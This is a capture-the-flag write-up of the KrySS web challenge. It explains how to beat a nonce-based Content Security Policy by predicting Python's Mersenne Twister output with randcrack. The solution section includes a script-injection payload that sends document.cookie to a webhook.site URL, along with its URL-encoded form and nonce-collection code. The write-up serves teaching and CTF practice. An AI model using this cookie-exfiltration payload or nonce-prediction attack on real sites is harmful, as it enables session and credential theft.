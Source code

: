
so this was my contribution to the DEFENSYS 2024 CTF, and i created a web+crypto chall named KrySS and its an XSS chall but with an insecure CSP rule

### description:
	they told me XSS is very dangerous so i made a very secure website that will make XSS useless

## what you will learn:

* the nonce csp rule
* the Mersenne Twister PRNG algorithm 


## the solution
![Alt text](image1.png "Title")

in the / route we got this page and a button that should give us a cookie, and when click on it we got the following :
![Alt text](image2.png?raw=true "Title")

and its a unique userId (we will see later what this is used for)

![Alt text](image3.png?raw=true "Title")

and by looking at the cookies in devtools we see that we successfully got one, but what can we do with it, lets read the code and see

## Code analysis

#### The `/getcookie` route:
```python
Users = {}

@app.route('/getcookie', methods=['POST', 'GET'])
def setcookie():
	# this is just to generate a random userId
	user = str(uuid.uuid4())
	session["userId"] = user
	R = random.Random()
	Users[user] = R
	resp = make_response(f"your cookie has been set use it now to continue the challenge and your unique id is : {user}")
	return resp
```
in this endpoint we generate a unique userId and a `Random` object from the `Random` class in `random` module then map that `userId` with the `Random` object in the `Users` dictionary and we return the uniqe `userId` in response

### The `/hello` route
```python
@app.route("/hello")
def hello_world():
	try:
		user = session["userId"]
	except:
		user = request.args.get("userId", '')
	msg = request.args.get('msg', '')
	if user is None:
		return "You did not set any cookie go back to main page and set one"
	elif user not in Users:
		return "the userId you entered is no set go to /getcookie to take your cookie and set a new userId"
	else:
		R = Users[user]
	nonce = hex(R.getrandbits(32))[2:]
	resp = make_response(f"<p>Hello, {msg}</p>")
	resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
	return resp
```
at the beginning of this function we grab the userId either from cookies in the session object (the cookie we got in the `/getcookie` route)  or just enter it in the requests arguments.
but that `userId` should be already initialized (wich means it should be already in the Users dict) so a valid `userId` should be the one returned from `/getcookie`

and here comes the most important part of the chall:
```python
nonce = hex(R.getrandbits(32))[2:]
resp = make_response(f"<p>Hello, {msg}</p>")
resp.headers['Content-Security-Policy'] = f"script-src 'nonce-{nonce}';"
```
the server generate a random 32 bits number and convert it to hex in the nonce variable, also see that the `R` variable is the object we got from the `Users`  dict with the `userId` as key
we see and obvious XSS vulnerability
BUUUT we have a problem here we cant just have XSS because we have the `'Content-Security-Policy'` header wich will set some rules that will stop us from having an easy XSS

## Escape the Matrix, i mean the CSP 😅
### but what is CSP ?
csp (Content security policy) is a security mechanism that protect against XSS by putting some rules that will strict the uses of javascript  
```
Content Security Policy: is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and data injection attacks. These attacks are used for everything from data theft, to site defacement, to malware distribution.
```
this is the definition in : https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

and here is a good resource to better understand this concept: https://portswigger.net/web-security/cross-site-scripting/content-security-policy

### The `script-src 'nonce-{nonce}';` rule

what this rule does is that it tells the browser to only execute `<script>` tags that have the  `nonce`  attribute in it equal to the one generated by the server 
* Example:
if `nonce = afe4a1b2`
then the csp rule will be : `script-src 'nonce-afe4a1b2';` and the browser will only execute script tags that have `nonce` attribute equal to `afe4a1b2`:
```html
<script nonce="afe4a1b2">alert()</script>
```
so the goal of the challenge is to predict the next nonce random value

### Predicting the nonce

the way how the nonce is generated is by mapping each user to a `Random` object so each user will have a unique random sequence but can we predict each users sequence, if the `Random` use a predictable PRNG we can predict the n-th `nonce` by getting all n-1 `nonce`s, and fortunately the `Random` object uses a predictable PRNG which is : `Mersenne Twister`

resource if you wanna understand the Mersenne Twister PRNG deeper: 
* https://cryptopals.com/sets/3/challenges/23
* https://cryptopals.com/sets/3/challenges/22

but we can use a tool for that:
* https://github.com/tna0y/Python-random-module-cracker: and it requires 624 random value to predict the next one so we will have to collect 624 `nonce`

### Where is the flag ?
by looking at the bot.py source code of the bot admin we will notice that this is a headless chrome browser that will visit a url, and it puts the flag in cookies but those cookies will be accessible only when using the challenges domain

## Final solution

* create a webhook that we will use to leak us the flag : using this site https://webhook.site/, copy the url of the webhook
* create a user and take its userID:
	```python
	r = S.get(url+"/getcookie")
	userid = r.text.strip()[-36:]
	```
* take all the 624 nonce by requesting the `/hello` endpoint that will return the nonces in header, and predict the 625-th nonce using randcrack
```python
	rc = RandCrack()
	for _ in range(624):
		r = S.get(url+"/hello?msg=a")
		csp_header = r.headers["Content-Security-Policy"]
		print(csp_header)
		rc.submit(int(csp_header[18:-2], 16))
	nonce = hex(rc.predict_getrandbits(32))[2:]
	print(f"predicted value is : {nonce}")
```
* use the nonce we predicted in the `nonce` attribute of the `<script>` tag to execute javascript, and make a fetch (or XHR ) request to our webhook  to leak the flag (that will be in the bot's cookies)

```html
<script nonce="XXXXXX">fetch("https://webhook.site/zzzz...yyyy/flag?flag="+document.cookie,{{"mode":"no-cors"}})</script>
```
url encode this XSS payload using any online urlencoder then put it in the `msg` parameter and put the userId that we got in the `userId`  parameter (this step is so important)
* final payload should look something like this: `?http://127.0.0.1:8080/report?msg=%3Cscript%20nonce%3D%22XXXXXX%22%3Efetch%28%22https%3A%2F%2Fwebhook%2Esite%2Fzzzz%2E%2E%2Eyyyy%2Fflag%3Fflag%3D%22%2Bdocument%2Ecookie%2C%7B%7B%22mode%22%3A%22no%2Dcors%22%7D%7D%29%3C%2Fscript%3E&userId=52b73ef5%2D7f86%2D4892%2Dbd39%2D120ed0269c51
* full payload generator will be in the (exploit.py)[exploit.py]
* submit that url to the admin bot
* and then get the flag from the webhook

![Alt text](image4.png?raw=true "Title")

